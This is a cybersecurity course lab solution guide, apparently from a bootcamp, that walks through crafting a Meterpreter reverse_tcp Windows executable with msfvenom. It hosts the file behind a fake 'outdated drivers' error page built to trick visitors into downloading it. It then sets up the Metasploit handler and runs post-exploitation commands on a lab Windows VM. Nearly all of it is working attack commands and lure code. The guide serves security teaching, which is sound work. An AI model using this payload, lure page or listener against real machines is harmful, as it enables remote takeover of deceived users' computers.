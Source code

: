 ## Solution Guide: Creating Custom Payloads

The goal of this activity was to craft customized payload options and understand how criminal hackers use them to bypass security controls.

---

### In the Kali Machine

1. For this attack, you will craft a custom malicious payload.

   Using `msfvenom`, craft a malicious executable with the following criteria:

      - Creates a `reverse_tcp` session using Meterpreter.
     
      - Payload is designed to exploit any Windows platform in general.

      - The file type is EXE.

      - Saves the output file to the `/var/www/html/` directory.

      - The local host is the attacking machine's IP address (Kali Linux).

      - The local port is `4444`.

      - Has the name `drivers.exe`.

   After you craft the payload, run the command to create it.  

    - **Solution**: `msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=192.168.0.8 LPORT=4444 -o /var/www/html/drivers.exe`
        
    ![MSV 5](Images/MSV_5.png)

2. To begin, create a backup of the index.html file that is located in the `/var/www/html/` directory without overwriting its current contents:

   -  Run the following commands:
   ​
      - `cp /var/www/html/index.html /var/www/html/index.html.bak`

         - This command backs up the original `index.html` without overwriting it.
   ​
      - `ls /var/www/html/`
         - This lists the contents of the `/var/www/html/` directory to verify that you have both the `index.html` and `index.html.bak` files. 


3. Build the malicious code into the webpage. The HTML code is provided below. You will need to edit the `/var/www/html/index.html` file with the name of your executable `drivers.exe`.

   - Use Nano to edit the `index.html` file:

      - Run `nano /var/www/html/index.html`

  - Edit the following code into the file and change the name of your executable in the HTML code from `sample.exe` to `drivers.exe`:
​ 
   ```html
   <html>
   <head>
      <title>Error 405: Unable to…</title>
   </>
   <body>
      <h1>Error 405: Unable to browse the web.</h1>
      <hr>
      <h3>Your drivers seem to be outdated and are not secure anymore. To resolve this issue and access the internet again you need to update your drivers.</h3>
      <br>
      <h3>Click <a href=sample.exe>here</a> to download and install the required drivers.</h3>
   </body>
   </html>
   ```
      
![MSV 1](Images/MSF_ACT_1.png)

View the `index.html` file to verify it contains `drivers.exe`. 
- Run: `cat /var/www/html/index.html`

![MSV 2](Images/MSF_ACT_2.png)

4. Launch the Metasploit Framework. 

     -  **Solution**: Run `msfconsole`

      We are now presented with the `msfconsole` prompt.

     ![MSV 3](Images/MSF_ACT_3.png)

5. Test the malicious website to ensure it's working properly. Launch a web browser and navigate to the localhost:
​
   - Type the following into the URL: `127.0.0.1`
​
   - The webpage should launch with the headline: **Error 405: Unable to browse the web.**
​
   - This indicates our website is online and ready for action.

   - Note that while the website shows an error, the page contains the malicious link that unsuspecting visitors are encouraged to click.

​
    ![MSV 4](Images/MSF_ACT_4.png)

6. Now we will configure the setting for the listener. Return to the terminal. Run the series of commands that will accomplish the following tasks and then run the exploit.

    **Solutions:**

   -  Uses the `exploit/multi/handler` module:

      - `use exploit/multi/handler`

   - Sets the payload to `windows/meterpreter/reverse_tcp`:

     - `set PAYLOAD windows/meterpreter/reverse_tcp`

   - Sets the local host to the IP of Kali Linux:

     - `set LHOST 192.168.0.8`

         (`192.168.0.8` is the IP of Kali.)

   -  Sets the local port to `4444`:

      - `set LPORT 4444`

   - Verifies that the settings took effect:

     - `show options`

   - Runs the exploit:

     - `exploit` or `run`

     ![MSV 5](Images/MSF_ACT_5.png)
### In the DVW10 Windows Machine

7. Launch the DVW10 VM and open the web browser.

    Type the IP address of the Kali Linux machine in the URL.

    - **Solution:** `192.168.0.8` 

   - You will get a series of error messages. For both prompts, select **Run**.
    
​
    ![MSV 6](Images/MSF_ACT_6.png)

  This step delivered the payload to the victim's machine. We can now return to our attacking machine and perform some post-exploitation.   


### In the Kali Machine

8. Return to the Kali machine and perform some post-exploitation commands. 

   **Solutions:**

   - Run the command that generates a Windows command prompt:

     -  `shell`

   - Run the command that returns network shares:

     - `net share`

   - Run the command that returns all users on the DVW10 system:

     - `net users`

     ![MSV 7](Images/MSF_ACT_7.png)

____

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
